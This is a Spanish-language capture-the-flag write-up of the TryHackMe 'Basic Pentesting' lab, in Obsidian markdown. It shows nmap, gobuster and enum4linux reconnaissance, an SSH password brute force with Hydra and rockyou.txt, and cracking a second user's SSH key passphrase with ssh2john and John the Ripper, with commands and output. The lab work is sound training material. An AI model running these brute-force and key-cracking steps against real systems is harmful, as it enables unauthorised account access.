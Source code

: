 ```yaml
---
title: 01. Basic Pentesting
daft: "false"
tags:
  - THM
  - EASY
cssclasses:
  - hbox
---
```

---
Created by: [@raf181_](https://github.com/raf181)  | Date: `18-11-2024`

---

Comenzamos realizando un escaneo general de la red. Para esto, ejecutamos un escaneo con **[nmap](https://www.kali.org/tools/nmap/)** utilizando la dirección IP proporcionada. Usamos el parámetro `-sV` para obtener información de las versiones y el parámetro `-sC` para información de scripts. Para acelerar el escaneo, también incluimos el parámetro `-T4`. Los resultados del escaneo se detallan a continuación.  

> [!abstract]- Como Instalar
> Instalar `Nmap`:
> ```bash
> sudo apt install nmap

```Bash
nmap -sV -sC -T4 $ip
```

> [!example]- Output
> ```Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-11-18 01:25 CET
> Stats: 0:01:03 elapsed; 0 hosts completed (1 up), 1 undergoing Service Scan
> Service scan Timing: About 66.67% done; ETC: 01:27 (0:00:29 remaining)
> Nmap scan report for 10.10.63.0
> Host is up (0.13s latency).
> Not shown: 994 closed tcp ports (conn-refused)
> PORT     STATE SERVICE     VERSION
> 22/tcp   open  ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.4 (Ubuntu Linux; protocol 2.0)
> | ssh-hostkey:
> |   2048 db:45:cb:be:4a:8b:71:f8:e9:31:42:ae:ff:f8:45:e4 (RSA)
> |   256 09:b9:b9:1c:e0:bf:0e:1c:6f:7f:fe:8e:5f:20:1b:ce (ECDSA)
> |_  256 a5:68:2b:22:5f:98:4a:62:21:3d:a2:e2:c5:a9:f7:c2 (ED25519)
> 80/tcp   open  http        Apache httpd 2.4.18 ((Ubuntu))
> |_http-title: Site doesn't have a title (text/html).
> |_http-server-header: Apache/2.4.18 (Ubuntu)
> 139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
> 445/tcp  open  netbios-ssn Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
> 8009/tcp open  ajp13?
> |_ajp-methods: Failed to get a valid response for the OPTION request
> 8080/tcp open  http-proxy
> |_http-title: Apache Tomcat/9.0.7
> |_http-favicon: Apache Tomcat
> Service Info: Host: BASIC2; OS: Linux; CPE: cpe:/o:linux:linux_kernel
>
> Host script results:
> |_clock-skew: mean: 1h40m14s, deviation: 2h53m13s, median: 14s
> | smb2-time:
> |   date: 2024-11-18T00:28:42
> |_  start_date: N/A
> | smb-security-mode:
> |   account_used: guest
> |   authentication_level: user
> |   challenge_response: supported
> |_  message_signing: disabled (dangerous, but default)
> | smb2-security-mode:
> |   3:1:1:
> |_    Message signing enabled but not required
> | smb-os-discovery:
> |   OS: Windows 6.1 (Samba 4.3.11-Ubuntu)
> |   Computer name: basic2
> |   NetBIOS computer name: BASIC2\x00
> |   Domain name: \x00
> |   FQDN: basic2
> |_  System time: 2024-11-17T19:28:42-05:00
> Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
> Nmap done: 1 IP address (1 host up) scanned in 188.95 seconds```

De los resultados del escaneo, podemos observar que los puertos `22 (SSH)`, `80 (HTTP)` y los puertos `139–445 (SMB)` están abiertos. Al ingresar la dirección IP relevante en el navegador, no encontramos mucha información en la página web. Para recolectar más información, utilizamos una herramienta llamada **[gobuster](https://www.kali.org/tools/gobuster/)**. Con **[gobuster](https://www.kali.org/tools/gobuster/)**, podemos descubrir directorios dentro de la página web.  
> [!abstract]- Como Instalar
> Instalar `Gobuster`:
> ```bash
> sudo apt install gobuster
>```
> Descarga *`common directory list`* de v0re
> ```Bash
> wget https://raw.githubusercontent.com/v0re/dirb/refs/heads/master/wordlists/common.txt
> ```

```Bash
gobuster dir -u http://$ip/ -w /usr/share/wordlist/dirb/common.txt
```

> [!example]- Output
> ```
> ===============================================================
> Gobuster v3.6
> by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
> ===============================================================
> [+] Url:                     http://10.10.63.0/
> [+] Method:                  GET
> [+] Threads:                 10
> [+] Wordlist:                common.txt
> [+] Negative Status codes:   404
> [+] User Agent:              gobuster/3.6
> [+] Timeout:                 10s
> ===============================================================
> Starting gobuster in directory enumeration mode
> ===============================================================
> /.hta                 (Status: 403) [Size: 289]
> /.htaccess            (Status: 403) [Size: 294]
> /.htpasswd            (Status: 403) [Size: 294]
> /development          (Status: 301) [Size: 314] [--> http://10.10.63.0/development/]
> /index.html           (Status: 200) [Size: 158]
> /server-status        (Status: 403) [Size: 298]
> Progress: 4614 / 4615 (99.98%)
> ===============================================================
> Finished
> ===============================================================
> ```

A partir de los resultados del escaneo, descubrimos un directorio llamado `development`. Al visitar esta página, encontramos dos archivos llamados `dev.txt` y `j.txt`.  

![](99.%20Inserts/Pasted%20image%2020241118020931.png)

En el archivo `dev.txt`, vemos conversaciones entre `-J` y `-K`. De esto entendemos que están utilizando la versión `
`Apache version 2.5.12` en el sitio web.  

En el archivo `j.txt`, leemos que la contraseña de `-J` es débil. Esto nos da una pista para continuar.  

Para recopilar más información detallada del sistema SMB, utilizamos la herramienta **[enum4linux](https://www.kali.org/tools/enum4linux/)**. **[Enum4linux](https://www.kali.org/tools/enum4linux/)** es una herramienta diseñada para obtener información sobre sistemas SMB y Windows.  
> [!abstract]- Como Instalar
> Instalar `enum4linux`:
> ```bash
sudo apt install enum4linux
>

```Bash
enum4linux $ip
```

> [!example]- Output
> Important Output
> ![](99.%20Inserts/Pasted%20image%2020241118022657.png)
> ![](99.%20Inserts/Pasted%20image%2020241118022708.png)


Podemos observar en los resultados que los usuarios `-J` y `-K` son realmente Jan y Kay. Habíamos aprendido que la contraseña de Jan es débil. Para descifrar la contraseña, usaremos una herramienta llamada **[Hydra](https://www.kali.org/tools/hydra/)**. **[Hydra](https://www.kali.org/tools/hydra/)** es una herramienta ampliamente utilizada para descifrar contraseñas en sistemas de red.  

A partir de los resultados de Nmap, encontramos que el puerto SSH está abierto. Usando la herramienta **[Hydra](https://www.kali.org/tools/hydra/)**, intentaremos establecer una conexión a través del puerto SSH descifrando la contraseña.  
> [!abstract]- Como Instalar
> Instalar `wordlist`+`Hydra`:
>```Bash
>sudo apt install wordlists
>sudo apt install hydra
>```

```Bash
hydra -l jan -P /usr/share/wordlists/rockyou.txt ssh://$ip -t 4
```

> [!example]- Output
> ```Bash
> Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service > organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).
> 
> Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-11-18 15:46:59
> [WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session > found, to prevent overwriting, ./hydra.restore
> [DATA] max 4 tasks per 1 server, overall 4 tasks, 14344399 login tries (l:1/p:14344399), ~3586100 tries per task
> [DATA] attacking ssh://10.10.153.67:22/
> [STATUS] 24.00 tries/min, 24 tries in 00:01h, 14344375 to do in 9961:23h, 4 active
> [STATUS] 21.00 tries/min, 63 tries in 00:03h, 14344336 to do in 11384:24h, 4 active
> [STATUS] 24.14 tries/min, 169 tries in 00:07h, 14344230 to do in 9902:20h, 4 active
> [STATUS] 26.13 tries/min, 392 tries in 00:15h, 14344007 to do in 9147:58h, 4 active
> [22][ssh] host: 10.10.153.67   login: jan   password: ######
> 1 of 1 target successfully completed, 1 valid password found
> Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-11-18 16:16:28
> ```

Como resultado del uso de Hydra, obtenemos la contraseña de Jan. Con esta contraseña, establecemos una conexión SSH.  

### Escalación de privilegios  
Hemos iniciado sesión exitosamente como Jan. Tras explorar el sistema, encontramos que la bandera que buscamos está en el directorio del usuario Kay. Por lo tanto, necesitamos cambiar al usuario Kay. Para esto, debemos escalar privilegios. Podemos acceder a la clave RSA de Kay, la cual utilizaremos para escalar privilegios.  

Con la clave RSA, podemos acceder directamente a la cuenta de Kay a través de una conexión SSH sin ingresar una contraseña. Guardamos la clave RSA de Kay en un archivo llamado `a.txt` en nuestro terminal. Al intentar conectar con la cuenta de Kay usando la clave RSA, notamos que la clave RSA también está protegida con una frase de paso. Primero, necesitamos descifrar esta frase de paso. Para este propósito, podemos usar la herramienta **[ssh2john](https://www.kali.org/tools/john/#ssh2john)** de **[John the Ripper](https://www.kali.org/tools/john/#john)**.  

**[John the Ripper](https://www.kali.org/tools/john/#john)** es una herramienta comúnmente usada para descifrar contraseñas en sistemas basados en Unix. Inicialmente, la clave RSA, junto con **[ssh2john](https://www.kali.org/tools/john/#ssh2john)**, será transformada a un formato que **[John the Ripper](https://www.kali.org/tools/john/#john)** pueda descifrar. Guardamos la salida en un archivo de texto llamado `decrypted1.txt`. Luego, instruimos a **[John the Ripper](https://www.kali.org/tools/john/#john)** a intentar descifrar la frase de paso proporcionando el archivo de palabras comúnmente usado `rockyou.txt`.  

Después de una breve espera, podemos ver que la frase de paso ha sido descifrada. A continuación, escribimos el comando necesario, como se muestra, para establecer la conexión SSH desde el usuario Jan al usuario Kay. También proporcionamos la información de la frase de paso obtenida con la herramienta **[John the Ripper](https://www.kali.org/tools/john/#john)**, ¡y listo! Iniciamos sesión como el usuario Kay. Encontramos nuestra bandera dentro del archivo `pass.bak`.  

